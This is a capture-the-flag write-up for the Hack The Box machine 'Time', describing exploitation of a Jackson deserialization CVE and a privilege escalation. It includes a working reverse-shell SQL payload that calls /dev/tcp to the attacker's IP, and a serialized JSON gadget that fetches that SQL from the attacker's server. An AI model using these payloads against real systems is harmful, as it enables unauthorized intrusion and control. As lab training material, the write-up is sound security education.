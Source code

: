 ```yaml
---
title: "HackTheBox - Time"
date: 2021-04-03 07:03:36 +0530
tags: [linux]
categories: boxes
toc: true
toc_label: "Table of Contents"
toc_icon: "cog"
toc_sticky: true
excerpt: "Write-up of the box Time from Hack The Box"
---
```


# Overview
This is a brief walkthrough for the box `Time` from [HackTheBox](https://www.hackthebox.eu) with some remarks on [file/directory permissions](#permissions) in the appendix.
# Getting a shell on the box, user flag
![web](/assets/images/time/web_page.png){:height="720px" width="360px"}{: .align-right}
As only [port 22 and 80 are open](#nmap) we take a look at the website and find an online beautifier and validator:

Clicking around will soon reveal an error message. For example, entering a single quote and selecting `Validate (beta!)` triggers an error message which contains `com.fasterxml.jackson.core.JsonParseException`. Researching this error for a bit leads us to [CVE-2019-12384](https://github.com/jas502n/CVE-2019-12384) and following the steps outlined on the github page allows us to execute arbitrary code to get a shell on the box.\\
First we need to create the `.sql` file which we will then host via the python http server. In this sql file, we simply need to change the argument of `SHELLEXEC()` in the last line to what we wish to run:

```sql
$ cat reverse.sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
	String[] command = {"bash", "-c", cmd};
	java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
	return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('sh -i >& /dev/tcp/10.10.14.6/1234 0>&1')
```
To retrieve and execute this file we then need to slightly adjust the serialized payload that's passed to the `test.rb` file in the github page: 
```json
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.6:8000/reverse.sql'"}]
```
Pasting it into the `Validate (beta!)` field after setting up a local http server using python and a netcat listener:
```console
$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.214 - - [09/Mar/2021 10:58:53] "GET /reverse.sql HTTP/1.1" 200 -

 $ nc -lnvp 1234
 Ncat: Version 7.91 ( https://nmap.org/ncat )
 Ncat: Listening on :::1234
 Ncat: Listening on 0.0.0.0:1234
 Ncat: Connection from 10.10.10.214.
 Ncat: Connection from 10.10.10.214:55502.
 sh: 0: can't access tty; job control turned off
 $ ls
 css
 fonts
 images
 index.php
 js
 vendor
 $ whoami
 pericles
 $ cd /home/pe*
 $ ls
 snap
 user.txt
```
we notice command execution and get a shell back as `pericles`.
We can now collect the user flag.

# Root
First I upgrade to a ssh shell by echoing my public ssh key into the `~/.ssh/authorized_keys`. As `sudo -l` requires a password we do not have and the home directory of pericles is pretty much empty I upload [pspy](https://github.com/DominicBreuker/pspy) to see if any interesting processes are running, and indeed there are:
```console
pericles@time:~$ sudo -l
[sudo] password for pericles:
Sorry, try again.
pericles@time:~$ ./pspy64
[snip]
CMD: UID=0    PID=15551  | zip -r website.bak.zip /var/www/html
CMD: UID=0    PID=15528  | mv website.bak.zip /root/backup.zip
```
The user with UID 0 (root) zips `/var/www/html` to `/website.bak.zip` and moves it into the root folder, which is quickly confirmed by:
```console
$ pericles@time:/var/www/html$ while true; do ls / | grep website; done
website.bak.zip
```
I thought for a few minutes if there's a path vulnerability or anything I could put into the html folder to exploit but as the zip file doesn't seem to get extracted that shouldn't be possible. I then noticed another command thats run by root:
```bash
CMD: UID=0    PID=15548  | /bin/bash /usr/bin/timer_backup.sh
```
I started by looking at the file's permissions and to my surprise the file is owned by our user - which is rather unusual, because we cannot create files in `/usr/bin` - giving us full access to the file. More on that [here](#permissions).
```console
$ ls -al time*
-rwxr-xr-x 1 root     root     14720 Apr 21  2017 time
-rwxr-xr-x 1 root     root     43080 Apr 22  2020 timedatectl
-rwxr-xr-x 1 root     root     43800 Sep  5  2019 timeout
-rwxrw-rw- 1 pericles pericles    88 Mar  9 16:15 timer_backup.sh
```
For simplicity I simply collected the root flag via `cat` but we really have all options here, as the file is executed as root:
```console
$ cat /usr/bin/timer_backup.sh
#!/bin/bash
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip

[replaced by]

$ cat /usr/bin/timer_backup.sh
#!/bin/bash
cat /root/root.txt > /tmp/.flag

pericles@time:/tmp$ cat .flag
258535e5056435406f3d85114a2819b8
```
# Appendix
## <a name="permissions"></a> About file and directory permissions
Interestingly enough `timer_backup.sh` is owned by user and group `pericles`:
```console
-rwxrw-rw- 1 pericles pericles    88 Mar  9 16:15 timer_backup.sh

So reading the permissions from left to right: rwx rw- rw- 
First three bits -> owner 		-> read, write and execute
 Next three bits -> group 		-> read and write
 Last three bits -> everybody else 	-> read and write
```
Interestingly enough, because `/usr/bin/` is not a directory we are allowed to create files in:
```console
pericles@time:/usr/bin$ touch file
touch: cannot touch 'file': Permission denied
```
So probably the file was created here by root and he then changed the ownership and group to `pericles`. \\
As we have the write bit set on the _file_ but not on its parent directory we can therefore make changes to the content of the file but not to the file itself:
```console
pericles@time:/usr$ ls -l
total 96
drwxr-xr-x   2 root root 36864 Feb  9 14:42 bin
[snip]

pericles@time:/usr$ id
uid=1000(pericles) gid=1000(pericles) groups=1000(pericles)
```
As we neither are root nor in the root group, the execute bit - which allows us to enter the directory - and the read bit - which allows us to list the contents of the directory - are set for us. Thus we are not allowed to create new files nor remove existing ones even if these files are owned by us (which allows us to set file permissions however we like) because that would change the content of the directory and for this we need the write bit of the parent directory to be enabled - which can be done using `chmod o+w /usr/bin`:
```console
pericles@time:/usr/bin$ rm timer_backup.sh
rm: cannot remove 'timer_backup.sh': Permission denied

root@time:/# chmod o+w /usr/bin/  # write bit for users who aren't the owner/in the group of the file
chmod o+w /usr/bin/		

pericles@time:/usr/bin$ ls -al /usr/
total 104
drwxr-xr-x  14 root root  4096 Apr 23  2020 .
drwxr-xr-x  20 root root  4096 Apr  3 10:10 ..
drwxr-xrwx   2 root root 36864 Apr  3 10:09 bin

pericles@time:/usr/bin$ rm timer_backup.sh
pericles@time:/usr/bin$
``` 
## <a name="nmap"></a> Nmap scan
```console
$ sudo nmap -p- 10.10.10.214
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-01 04:44 EDT
Nmap scan report for 10.10.10.214
Host is up (0.035s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 18.68 seconds
```
